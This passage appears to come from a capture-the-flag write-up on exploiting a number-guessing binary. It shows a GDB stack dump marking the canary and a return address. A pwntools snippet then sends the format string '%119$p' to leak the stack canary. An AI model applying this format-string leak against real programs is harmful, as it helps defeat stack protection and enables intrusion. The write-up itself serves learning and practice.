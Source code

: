```
0xffffd270:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd280:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd290:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
0xffffd2a0:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd2b0:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd2c0:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
0xffffd2d0:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd2e0:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd2f0:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
0xffffd300:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd310:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd320:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
0xffffd330:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd340:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd350:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
0xffffd360:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd370:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd380:     0x70252e70      0x00000000      0xf7e3cb79      0xf7fad9e0
0xffffd390:     0xf7fafd20      0x0000001c      0xffffd3d8      0x1ce96a00
0xffffd3a0:     0xf7fafd20      0x0000000a      0x0000001c      0x08049fbc
0xffffd3b0:     0x00000001      0x08048520      0xffffd408      0xf7e14f35
0xffffd3c0:     0x00000000      0x080489fc      0xffffd3e4      0x00000000
                                                              +------------+
0xffffd3d0:     0x00000001      0x08048520      0xf7e14f15    | 0x1ce96a00 |    <- 0xffffd3df is canary value of win
                                                              +------------+
                                                              +------------+
0xffffd3e0:     0x080489fc      0x08049fbc      0xffffd408    | 0x0804888c |    <- 0xffffd3ec is ret of win
                                                              +------------+
0xffffd3f0:     0x00000001      0xffffd4c4      0x000003e8      0x00000001
0xffffd400:     0xffffd420      0x00000000      0x00000000      0xf7ddf905
0xffffd410:     0x00000001      0x08048520      0x00000000      0xf7ddf905
0xffffd420:     0x00000001      0xffffd4c4      0xffffd4cc      0xffffd454
0xffffd430:     0x00000000      0x00000000      0xf7fe7279      0xf7faeff4
0xffffd440:     0xf7fcb924      0xf7ffcff4      0xffffd4a8      0x00000000
0xffffd450:     0xf7ffd9d0      0x00000000      0x00000001      0x08048520
0xffffd460:     0x00000000      0x6a4c3085      0x2e150c95      0x00000000
0xffffd470:     0x00000000      0x00000000      0x00000000      0xf7ffcff4
0xffffd480:     0x00000000      0x00000000      0x00000000      0x08049fbc
0xffffd490:     0x00000001      0x08048520      0x00000000      0x08048552
0xffffd4a0:     0x080487ff      0x00000001      0xffffd4c4      0x080488a0
0xffffd4b0:     0x08048900      0xf7fdc4f0      0xffffd4bc      0xf7ffd9d0
0xffffd4c0:     0x00000001      0xffffd61e      0x00000000      0xffffd65e
0xffffd4d0:     0xffffd66e      0xffffd67f      0xffffdc69      0xffffdc7d
```

- By some simple python script, I found canary has index 119, so we can use `"%119$p"` instead of bunch of `"%p"`. Here is script that leak the canary

```python
p.recvuntil("What number would you like to guess?\n")
p.sendline(str(bypass_rand).encode("ascii"))
p.recvuntil("Name? ")
p.sendline("%119$p")
p.recvuntil("Congrats: ")
canary = int(p.recv(10), 16)
log.info(hex(canary))
```
